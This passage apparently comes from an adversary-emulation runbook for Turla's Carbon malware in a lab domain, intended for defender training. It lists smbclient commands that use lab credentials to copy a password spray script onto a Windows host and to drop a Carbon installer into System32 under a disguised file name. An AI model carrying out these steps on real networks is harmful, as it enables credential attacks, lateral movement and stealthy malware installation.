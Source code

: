 :arrow_right: From the "smbclient" tab on the Kali Linux machine, copy the
password spray script to `hobgoblin`:
```bash
cd /opt/day1/turla/Resources/payloads/carbon/
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.20.102/C$ -c 'put password_spray.bat Users\Public\winsas64.bat'
```

:arrow_right: Return to your RDP session to `hobgoblin` as `Gunter`.

:arrow_right: Open a **Windows Command Prompt** and execute the password spray script.

```bat
"C:\Users\Public\winsas64.bat"
```

:heavy_exclamation_mark: Verify that the script successfully sprays `Frieda`'s
password by checking that output matches the following:
```text
The command completed successfully.

frieda:Password3! SUCCESS
```

### :moyai: Source Code

* [Password spray batch script](password_spray.bat)

### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>

<br>

## Test 4: Carbon on Domain Controller

:microphone: `Voice Track:`

Test 4 emulates execution of CARBON-DLL on the domain controller via scheduled
task.

---

### :biohazard: Procedures

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy the
Carbon installer executable to Windows host, `hobgoblin`.
```bash
cd /opt/day1/turla/Resources/payloads/carbon/
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.20.102/C$ -c 'put carbon_installer_2.exe Windows\System32\wmimetricsq.exe'
```

:arrow_right: Return to your RDP session to `hobgoblin (10.20.20.102)`
as `Gunter`.

* Open File Explorer and browse to `C:\Windows\System32`. Order the files by date.
